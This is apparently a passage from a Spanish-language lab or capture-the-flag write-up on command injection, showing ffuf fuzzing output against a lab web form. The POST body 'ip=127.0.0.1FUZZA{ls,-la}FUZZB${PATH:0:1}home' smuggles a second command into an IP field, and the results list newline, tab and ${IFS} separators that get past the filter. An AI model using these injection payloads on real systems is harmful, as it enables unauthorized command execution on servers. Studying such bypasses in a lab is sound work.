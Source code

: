```
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 :: Header           : Referer: http://94.237.57.211:55908/
 :: Header           : Accept-Language: es,es-ES;q=0.9,en;q=0.8,zh-TW;q=0.7,zh-CN;q=0.6,zh;q=0.5
 :: Header           : Cookie: PHPSESSID=foln9nueoba552uf6n3ge7mncn
 :: Data             : ip=127.0.0.1FUZZA{ls,-la}FUZZB${PATH:0:1}home
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 635,648
________________________________________________

[Status: 200, Size: 1116, Words: 141, Lines: 42, Duration: 190ms]
    * FUZZA: %0a
    * FUZZB: %0a

[Status: 200, Size: 1056, Words: 147, Lines: 41, Duration: 189ms]
    * FUZZA: %0a
    * FUZZB: %09

[Status: 200, Size: 1241, Words: 190, Lines: 48, Duration: 1265ms]
    * FUZZA: %0a
    * FUZZB: ${IFS}

```

Tras validarlo encontramos que al menos dos de ellas son correctos.

[![command5](/images/command5.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/command4.png)
